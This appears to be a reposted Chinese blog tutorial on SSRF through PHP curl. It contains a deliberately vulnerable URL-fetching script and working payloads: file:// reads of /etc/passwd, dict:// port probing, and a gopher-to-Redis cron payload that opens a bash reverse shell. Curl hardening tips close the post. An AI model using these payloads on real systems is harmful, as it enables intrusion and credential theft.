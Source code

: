 ```yaml
---
title: "php curl ssrf攻击"
date: 2017-04-12 22:44:01 +0800
modified: 2017-07-24 16:47:48 +0800
img: /assets/images/201704/12-01.png

categories: 转载验证
tags: [php, ssrf, curl, 网络安全]
---
```


## 什么是 SSRF  [^1]
>SSRF(Server-Side Request Forgery:服务器端请求伪造) 是一种由攻击者构造形成由服务端发起请求的一个安全漏洞。
>一般情况下，SSRF攻击的目标是从外网无法访问的内部系统。

### 三个使用`curl`进行`ssrf`的示例 [^2]

```bash
# 利用file协议查看文件
curl -v 'file:///etc/passwd'

# 利用dict探测端口
curl -v 'dict://127.0.0.1:22'
curl -v 'dict://127.0.0.1:6379/info'

# 利用gopher协议反弹shell
curl -v 'gopher://127.0.0.1:6379/_*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$56%0d%0a%0d%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/2333 0>&1%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a'
```

漏洞代码 **example.php**（ 未做任何SSRF防御 ）
```php
function curl($url){
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_HEADER, 0);
    curl_exec($ch);
    curl_close($ch);
}

$url = $_GET['url'];
curl($url);
```

### **file**

执行 `http://localhost/example.php?url=file:///etc/passwd`, 结果如下,打印文件内容

![passwd info](/assets/images/201704/12-01.png)

### **dict**

执行 `http://localhost/example.php?url=dict://127.0.0.1:22`, 结果如下, 现实端口信息

![dict info](/assets/images/201704/12-02.png)

### **gopher**

>Gopher是一个互联网上使用的分布型的文件搜集获取网络协议。 [^3]

`redis反弹shell`代码如下:
>gopher%3A%2F%2F127.0.0.1%3A6379%2F_%2A3%250d%250a%243%250d%250aset%250d%250a%241%250d%250a1%250d%250a%2456%250d%250a%250d%250a%250a%250a%2A%2F1%20%2A%20%2A%20%2A%20%2A%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F127.0.0.1%2F2333%200%3E%261%250a%250a%250a%250d%250a%250d%250a%250d%250a%2A4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%243%250d%250adir%250d%250a%2416%250d%250a%2Fvar%2Fspool%2Fcron%2F%250d%250a%2A4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%2410%250d%250adbfilename%250d%250a%244%250d%250aroot%250d%250a%2A1%250d%250a%244%250d%250asave%250d%250a%2A1%250d%250a%244%250d%250aquit%250d%250a

转译后的 **攻击脚本**
```
gopher://127.0.0.1:6379/_*3
$3
set
$1
1
$56



*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/2333 0>&1





*4
$6
config
$3
set
$3
dir
$16
/var/spool/cron/
*4
$6
config
$3
set
$10
dbfilename
$4
root
*1
$4
save
*1
$4
quit
```
执行后, 在redis中查看
```bash
127.0.0.1:6379> key *
(error) ERR unknown command 'key'
127.0.0.1:6379> keys *
1) "msg"
2) "numbers"
3) "1"
127.0.0.1:6379> get 1
"\r\n\n\n*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/2333 0>&1\n"
127.0.0.1:6379>
```
使用 `nc` 监听查看 2333端口反馈信息 [^4]
```bash
$ nc -lvv 2333                                                            1 ↵
Listening on [0.0.0.0] (family 0, port 2333)
```

使用说明:
>gopher协议使用方法：gopher://ip:port/_payload

**gopher转换规则** 如下：

- 如果`第一个字符`是 **>** 或者 **<** 那么丢弃该行字符串，表示请求和返回的时间。
- 如果`前3个字符`是+OK 那么`丢弃`该行字符串，表示返回的字符串。
- 将`\r`字符串替换成`%0d%0a`
- 空白行替换为%0a


## curl安全

1. 限制只支持HTTPS、HTTP协议

    在 `curl_setopt`中添加 `curl_setopt($ch, CURLOPT_PROTOCOLS, CURLPROTO_HTTP | CURLPROTO_HTTPS);`

    则 **file**,**dict**,**gopher** 等其他协议将被过滤, 可以阻止一些ssrf.

1. 禁止30x跳转 (默认关闭)

    在 `curl_setopt`中添加 `curl_setopt($ch, CURLOPT_FOLLOWLOCATION, False);`


>原文: [JoyChou - SSRF in PHP](http://joychou.org/index.php/web/phpssrf.html)

---
## 参考文档
- [SSRF](https://hxer.github.io/WebSecurity/ssrf.html)
- [ssrf proxy](https://bcoles.github.io/ssrf_proxy/)
- [Server Side Request Forgery (SSRF)](http://niiconsulting.com/checkmate/2015/04/server-side-request-forgery-ssrf/)
- [What is the Server Side Request Forgery Vulnerability & How to Prevent It?](https://www.netsparker.com/blog/web-security/server-side-request-forgery-vulnerability-ssrf/)
- [利用 gopher 协议拓展攻击面](https://ricterz.me/posts/%E5%88%A9%E7%94%A8%20gopher%20%E5%8D%8F%E8%AE%AE%E6%8B%93%E5%B1%95%E6%94%BB%E5%87%BB%E9%9D%A2)
- [SSRF漏洞的利用与学习](http://uknowsec.cn/posts/notes/SSRF%E6%BC%8F%E6%B4%9E%E7%9A%84%E5%88%A9%E7%94%A8%E4%B8%8E%E5%AD%A6%E4%B9%A0.html)
- [JoyChou - SSRF in PHP](http://joychou.org/index.php/web/phpssrf.html)
- [Gopher (protocol)](https://en.wikipedia.org/wiki/Gopher_(protocol))
- [利用 gopher 协议拓展攻击面](https://ricterz.me/posts/%E5%88%A9%E7%94%A8%20gopher%20%E5%8D%8F%E8%AE%AE%E6%8B%93%E5%B1%95%E6%94%BB%E5%87%BB%E9%9D%A2)



[^1]: https://hxer.github.io/WebSecurity/ssrf.html
[^2]: http://joychou.org/index.php/web/phpssrf.html
[^3]: https://en.wikipedia.org/wiki/Gopher_(protocol)
[^4]: https://ricterz.me/posts/%E5%88%A9%E7%94%A8%20gopher%20%E5%8D%8F%E8%AE%AE%E6%8B%93%E5%B1%95%E6%94%BB%E5%87%BB%E9%9D%A2
